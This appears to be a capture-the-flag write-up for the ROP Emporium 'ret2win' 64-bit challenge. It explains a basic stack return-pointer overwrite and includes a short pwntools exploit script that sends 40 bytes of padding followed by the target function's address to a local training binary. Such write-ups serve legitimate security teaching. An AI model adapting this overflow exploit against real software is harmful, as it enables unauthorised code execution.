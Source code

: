 # ret2win-64bit
this challange is the very first one in the "ROP Emporium" series. 
it's a basic return pointer overwrite without any tricks.    
   
![Screenshot from 2020-04-02 11-19-39-edited](https://user-images.githubusercontent.com/60041914/78273124-14177280-7517-11ea-8fca-1f42421d4b38.png)

this binary has NX but no PIE or stack canary.   
inside the binary we can find a "ret2win" function.   
![Screenshot from 2020-04-02 11-22-04-edited](https://user-images.githubusercontent.com/60041914/78273542-a3bd2100-7517-11ea-8ac6-71b36de827de.png)

we can write a simple script using pwntools that overwrites the return pointer with that address.      
```python
from pwn import *

RET2WIN=0x00400811

r=process("./ret2win")
exploit=b"A"*40
exploit+=p64(RET2WIN)

r.sendline(exploit)
r.interactive()
```
![Screenshot from 2020-04-02 11-22-52-edited](https://user-images.githubusercontent.com/60041914/78273669-d49d5600-7517-11ea-8ccc-9184231a9303.png)
 
